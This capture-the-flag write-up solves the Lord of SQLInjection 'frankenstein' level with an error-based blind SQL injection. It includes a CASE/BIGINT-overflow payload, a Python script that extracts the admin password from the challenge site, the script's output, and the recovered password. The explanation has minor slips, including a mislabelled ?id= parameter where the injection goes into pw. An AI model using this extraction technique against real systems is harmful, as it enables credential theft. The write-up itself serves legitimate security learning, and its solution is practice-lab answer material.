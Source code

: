 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Character at index 1: 0
[+] Character at index 2: d
[+] Character at index 3: c
[+] Character at index 4: 4
[+] Character at index 5: e
[+] Character at index 6: f
[+] Character at index 7: b
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```

If we provide the following URI parameter:

```
?pw=0dc4efbb
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='0dc4efbb'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/bef1ff18-ace7-4eed-ab14-e9584686da12)
